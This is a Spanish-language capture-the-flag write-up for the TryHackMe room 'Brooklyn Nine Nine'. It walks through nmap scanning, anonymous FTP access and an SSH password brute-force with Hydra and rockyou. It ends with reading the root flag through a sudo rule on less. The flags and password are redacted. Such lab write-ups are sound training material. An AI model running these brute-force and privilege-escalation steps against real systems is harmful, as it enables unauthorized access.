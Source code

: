 ```yaml
---
title : "Brooklyn Nine Nine - Write Up - Español"
date : 2021-07-03T16:53:59+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
tags : ["hydra", "FTP", "sudo", "less", "TryHackMe"]
description : "Máquina de nivel fácil en TryHackMe."
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/brooklynninenine)  | Fácil  |  [user](https://tryhackme.com/p/Fsociety2006)  |

## Reconocimiento

Usando `nmap` podemos detectar un servidor FTP con el usuario _anónimo_ activado.

```bash
╰─ lanfran@parrot ❯ map 10.10.79.24                                                                                                ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 12:41 CEST
Nmap scan report for 10.10.79.24
Host is up (0.055s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.6.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.25 seconds
```
He iniciado sesión en el servidor FTP y descargué el archivo dentro.
```bash
╰─ lanfran@parrot ❯ ftp 10.10.79.24                                                                                                ─╯
Connected to 10.10.79.24.
220 (vsFTPd 3.0.3)
Name (10.10.79.24:lanfran): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.14 secs (0.8191 kB/s)
ftp> 
```

## Acceso inicial - Usuario

Leyendo la nota, obtenemos el nombre de 2 usuarios, `Jake y Amy`, Amy le dijo a Jake que su contraseña es demasiado débil.

Así que usemos **Hydra** para hacerle fuerza bruta al SSH con el usuario Jake y la wordlist _Rockyou_

```bash
╰─ lanfran@parrot ❯ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.79.24                                            ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-04 12:49:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.79.24:22/
[22][ssh] host: 10.10.79.24   login: jake   password: [REDACTADO]

```
¡Genial! ¡Ahora tenemos la contraseña para Jake!

Vamos a iniciar sesión, y leamos la flag del usuario que está dentro de `/home/holt/User.txt`

## Root

Una vez dentro de la máquina, utilicé `sudo -l` para verificar si el usuario está dentro del archivo sudoers. ¡Afortunadamente está!

```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Así que vamos a leer la bandera de root con `less`.

```bash
jake@brookly_nine_nine:~$ sudo /usr/bin/less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: [REDACTADO]

Enjoy!!
/root/root.txt (END)
```

¡Y hemos "rooteado" la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!